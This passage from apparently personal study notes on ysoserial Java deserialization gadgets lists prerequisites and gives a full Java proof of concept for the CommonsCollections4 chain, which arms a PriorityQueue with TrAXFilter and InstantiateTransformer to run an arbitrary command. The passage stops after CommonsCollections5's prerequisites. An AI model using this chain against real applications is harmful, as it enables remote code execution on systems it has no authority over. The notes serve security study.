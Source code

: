Use whichever payload in [[Java Deserialize Vulnerabilities ysoserial study#CommonCollections1|CC1]] to reach the eventual payload.

End.

### CommonCollections4


> [!NOTE] pre-requirements
> JDK <= 1.7 
> commons-collections:commons-collections:4.0

This payload uses the same vulnerability as [[Java Deserialize Vulnerabilities ysoserial study#CommonCollections2|CC2]] but uses a different exploit chain.
Specifically, this payload uses `TrAXFilter`, triggers transformer from its constructor.
Poc:
```java
Object templates = Gadgets.createTemplatesImpl(command);  
  
ConstantTransformer constant = new ConstantTransformer(String.class);  
  
// mock method name until armed  
Class[] paramTypes = new Class[] { String.class };  
Object[] args = new Object[] { "foo" };  
InstantiateTransformer instantiate = new InstantiateTransformer(  
      paramTypes, args);  
  
// grab defensively copied arrays  
paramTypes = (Class[]) Reflections.getFieldValue(instantiate, "iParamTypes");  
args = (Object[]) Reflections.getFieldValue(instantiate, "iArgs");  
  
ChainedTransformer chain = new ChainedTransformer(new Transformer[] { constant, instantiate });  
  
// create queue with numbers  
PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(chain));  
queue.add(1);  
queue.add(1);  
  
// swap in values to arm  
Reflections.setFieldValue(constant, "iConstant", TrAXFilter.class);  
paramTypes[0] = Templates.class;  
args[0] = templates;  
  
return queue;
```


### CommonCollections5


> [!NOTE] pre-requirements
> JDK >= 1.8, reproduce with JDK1.8_0382
> commons-collections:commons-collections:3.1



[^1]: [Paper/浅谈Java反序列化漏洞修复方案.md at master · Cryin/Paper](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)
